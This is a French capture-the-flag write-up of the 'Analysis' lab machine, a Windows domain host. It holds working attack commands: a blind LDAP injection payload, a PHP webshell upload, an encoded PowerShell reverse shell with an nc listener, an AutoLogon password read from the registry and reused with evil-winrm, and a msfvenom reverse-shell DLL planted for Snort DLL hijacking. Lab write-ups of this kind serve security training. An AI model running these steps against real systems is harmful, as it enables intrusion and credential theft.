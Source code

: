   # Analysis 

	echo "10.10.11.250 analysis.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.250 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.250 -oN nmap.txt
	feroxbuster --silent -u http://analysis.htb
	
Scans classiques.

    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-27 08:48:07Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3306/tcp  open  mysql         MySQL (unauthorized)
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    9389/tcp  open  mc-nmf        .NET Message Framing
    33060/tcp open  mysqlx?
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49671/tcp open  msrpc         Microsoft Windows RPC
    49672/tcp open  msrpc         Microsoft Windows RPC
    49683/tcp open  msrpc         Microsoft Windows RPC
    49696/tcp open  msrpc         Microsoft Windows RPC
    49709/tcp open  msrpc         Microsoft Windows RPC
    49713/tcp open  msrpc         Microsoft Windows RPC
    56849/tcp open  msrpc         Microsoft Windows RPC


Fuzzing supplémentaire : 

	ffuf -H "Host: FUZZ.analysis.htb" -u http://analysis.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt

Un sous-domaine existe : 

>internal                [Status: 403, Size: 1268, Words: 74, Lines: 30, Duration: 494ms]



    echo "10.10.11.250 internal.analysis.htb" >> /etc/hosts
	feroxbuster --silent -u http://internal.analysis.htb/

Quelques chemins intéressants retournés mais tous en 403 voire en 404: 

- http://internal.analysis.htb/dashboard/uploads/ 
- http://internal.analysis.htb/employees/
- http://internal.analysis.htb/users/

En cherchant des fichiers dans ces dossiers on finit par tomber sur un fichier **list.php** sous /users/ : 

    ffuf -u http://internal.analysis.htb/users/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -e html,js,php,asp,pdf,txt,zip,log,ini,db
    
> list.php                [Status: 200, Size: 17, Words: 2, Lines: 1, Duration: 43ms]

Il y a également un fichier **login.php** sous /employees/ : 

> login.php               [Status: 200, Size: 1085, Words: 413, Lines: 30, Duration: 70ms]

Ce fichier amène sur une page de login mais impossible de la contourner.

En revanche le chemin http://internal.analysis.htb/users/list.php retourne une erreur **"missing parameter"** qui laisse penser qu'il faut pousser le fuzzing jusqu'aux paramètres : 

    ffuf -u http://internal.analysis.htb/users/list.php?FUZZ=abc -w /usr/share/wordlists/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt -fs 17

Le paramètre "name" renvoie un résultat différent : 

> name                    [Status: 200, Size: 406, Words: 11, Lines: 1, Duration: 54ms]

En regardant l'URL http://internal.analysis.htb/users/list.php?name=abc graphiquement on observe un résultat de recherche vide.

J'ai essayé de faire bugger le backend en mettant des caractères spéciaux mais sans succès. En revanche, mettre un wildcard ('*') a renvoyé un résultat **"technician"**

Le couple technician / technician ne fonctionne pas pour le login sur la page /employees/login.php mais une Blind LDAP Injection semble possible dans le paramètre name.

En effet, le payload **name=*)(name=u** renvoie le résultat vide alors que le payload **name=*)(name=t** renvoie bien l'utilisateur "technician".

Il faut donc reproduire ce test en boucle pour déduire tout le mot de passe du compte. En scriptant cette injection, on trouve bien le mot de passe comme prévu. Voir mon script Blind_LDAP.py


Avec ce compte on peut bien se connecter sur la page /employees/login.php

Sur la page http://internal.analysis.htb/dashboard/form.php on a la possibilité d'envoyer des choses à exécuter. La page http://internal.analysis.htb/dashboard/uploads/ est maintenant aussi accessible et semble contenir les fichiers envoyés. 

On peut donc tout simplement envoyer un webshell en PHP par exemple.

En allant sur http://internal.analysis.htb/dashboard/uploads/shell.php on a ensuite accès au webshell, que l'on pourra facilement convertir : 

    powershell -e JABjA...AApAA==
    ...
    rlwrap nc -nvlp 9999
    ...
    whoami 

>analysis\svc_web


## Pivoting

    upload winpeas.exe
    upload PrivEscCheck.ps1
    
    .\winpeas.exe
    Import-Module .\PrivEscCheck.ps1
    Invoke-PrivEscCheck -Extended
    
Un mot de passe est trouvé pour **"jdoe"**

Autre commande pour le trouver : 

    reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

Résultat : 
    
    ...
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    7y4Z4^*y9Zzj
    AutoLogonSID    REG_SZ    S-1-5-21-916175351-3772503854-3498620144-1103
    LastUsedUsername    REG_SZ    jdoe
    ...
    
Connexion avec ce compte : 

     evil-winrm -u 'ANALYSIS\jdoe' -p '7y4Z4^*y9Zzj' -i 10.10.11.250 
     cd ../Desktop
     type user.txt

## Élévation de privilèges

    upload winpeas.exe
    upload PrivEscCheck.ps1
    
    .\winpeas.exe
    Import-Module .\PrivEscCheck.ps1 
    Invoke-PrivEscCheck -Extended

Une vulnérabilité de type DLL Hijacking est trouvée dans Snort. 

Voir : https://www.h4k-it.com/installing-and-configuring-snort/

Côté cible : 

    cd C:\snort\lib\snort_dynamicpreprocessor
    upload sf_engine.dll

Côté attaquant : 

    msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.11 LPORT=9999 -f dll > sf_engine.dll
    
    rlwrap nc -nvlp 9999
    ...
    whoami 
    type C:\Users\Administrateur\Desktop\root.txt
